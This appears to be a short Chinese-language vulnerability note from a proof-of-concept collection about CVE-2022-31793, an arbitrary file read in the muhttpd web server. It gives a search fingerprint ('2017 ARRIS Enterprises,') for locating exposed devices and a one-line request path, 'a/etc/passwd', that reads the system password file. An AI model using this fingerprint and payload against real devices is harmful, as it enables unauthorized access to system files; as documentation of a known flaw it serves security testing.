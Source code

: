 # muhttpd 任意文件读取漏洞 CVE-2022-31793

## 漏洞描述

muhttpd（mu-HTTP-deamon）是一个简单但完整的web服务器，用可移植的ANSI C编写。它支持静态页面、CGI脚本、基于MIME类型的处理程序和HTTPS。它在接受任何连接之前放弃特权，并且可以记录接收到的请求。它已经在GNU/Linux、NetBSD、FreeBSD、Mac OS X和Cygwin上进行了测试。它在32位和64位、小端和大端系统上成功运行。

muhttpd 1.1.7之前版本存在安全漏洞。攻击者利用该漏洞读取系统任意文件。

## 漏洞影响

```
muhttpd 1.1.7
```

## 网络测绘

```
"2017 ARRIS Enterprises,"
```

## 漏洞复现

登录页面

![1](./images/202209131051840.png)

验证POC

```
a/etc/passwd 
```

![2](./images/202209131051507.png)
